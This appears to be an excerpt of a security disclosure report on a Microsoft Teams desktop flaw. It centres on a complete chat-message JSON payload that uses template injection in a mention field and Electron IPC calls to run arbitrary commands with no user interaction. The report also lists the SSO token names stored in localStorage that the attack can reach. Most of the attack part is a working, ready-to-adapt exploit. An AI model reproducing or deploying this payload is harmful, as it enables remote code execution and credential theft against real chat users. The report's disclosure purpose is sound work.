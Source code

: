 ```
{"content":"<div><div>\n<div>\n<div>\n<div>\n<div><span itemscope itemtype=\"http://schema.skype.com/Mention\" itemid=\"0\">dada</span></div>\n</div>\n</div>\n</div>\n</div>\n</div>","messagetype":"RichText/Html","contenttype":"text","amsreferences":[],"clientmessageid":"9868848366534370000","imdisplayname":"Oskars Vegeris","properties":{"importance":"","subject":null,"mentions":"[{\"@type\":\"http://schema.skype.com/Mention\",\"itemid\":0,\"tagId\":\"tHab2TLzpa\",\"mri\":\"tHab2TLzpa\",\"mentionType\":\"tag\",\"displayName\":\"x marks the spot{{['if(typeof mentiontime==`undefined`){mentiontime=1;stage1=`data:text/plain,cp=require(\\\"child_process\\\");cp.exec(\\\"open /System/Applications/Calculator.app\\\")`;this.electronSafeIpc.send(`desktopFileDownload`,stage1);this.electronSafeIpc.on(`desktop-file-download-finished`,(_,fileinfo)=>{f=fileinfo.uniqueFile.filePath;stage2=`data:text/html,<webview src=\\\"about:blank\\\" preload=\\\"file:///${f}\\\"></webview>`;this.electronSafeIpc.send(`allowWindowOpenUrl`,stage2);this.w=window.open(stage2);setTimeout(()=>{this.w.close()},2000)})}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}\"}]"}}
```

! note: change the command, currently set for macOS Catalina as `open /System/Applications/Calculator.app`

**no user interaction is required simply visiting a chat will execute arbitrary code.**


# Supporting materials/references:

[1] - Video demos, screenshots

[2] - https://www.electronjs.org/docs/tutorial/security

# SSO / cookie info

## list of SSO token identifiers in localStorage && cookie parameters available from JavaScript in Microsoft Teams

SSO tokens:
```
adal.nonce.idtoken
ts.09ccd856-c12e-4228-acf6-a19af826be77.auth.skype.token
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.4580fd1d-e5a3-4f56-9ad1-aab0e3bf8f76
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.cf53fce8-def6-4aeb-8d30-b158e7b1cf83
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://*.microsoftstream.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://api.spaces.skype.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://chatsvcagg.teams.microsoft.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://emea.presence.teams.microsoft.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming-my.sharepoint.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming-my.sharepoint.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming.sharepoint.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming.sharepoint.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://forms.office.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://loki.delve.office.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://management.core.windows.net/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://onenote.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://outlook.office.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://outlook.office365.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://outlook.office365.com/connectors
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://presence.teams.microsoft.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://service.powerapps.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://teams.microsoft.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://uis.teams.microsoft.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://web.microsoftstream.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://whiteboard.microsoft.com
```
